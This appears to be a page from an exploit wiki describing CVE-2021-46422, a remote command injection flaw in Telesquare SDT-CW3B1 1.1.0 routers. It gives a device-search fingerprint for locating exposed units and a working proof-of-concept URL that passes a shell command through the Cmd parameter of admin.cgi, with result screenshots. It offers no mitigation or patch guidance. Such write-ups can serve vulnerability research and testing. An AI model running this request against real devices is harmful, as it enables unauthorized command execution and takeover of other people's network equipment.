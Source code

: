 # Telesquare SDT-CW3B1 admin.cgi remote command execution vulnerability CVE-2021-46422

## Vulnerability Description

Telesquare SDT-CW3B1 1.1.0 version has a command injection vulnerability, and an attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Telesquare SDT-CW3B1 1.1.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="SDT-CS3B1"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654142395320-945fe781-d087-46d1-a026-e1bb5f440ad5.png)

Verify POC

```php
/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654143109183-7ba34ffa-7bdd-4552-963f-693cfcfb796f.png)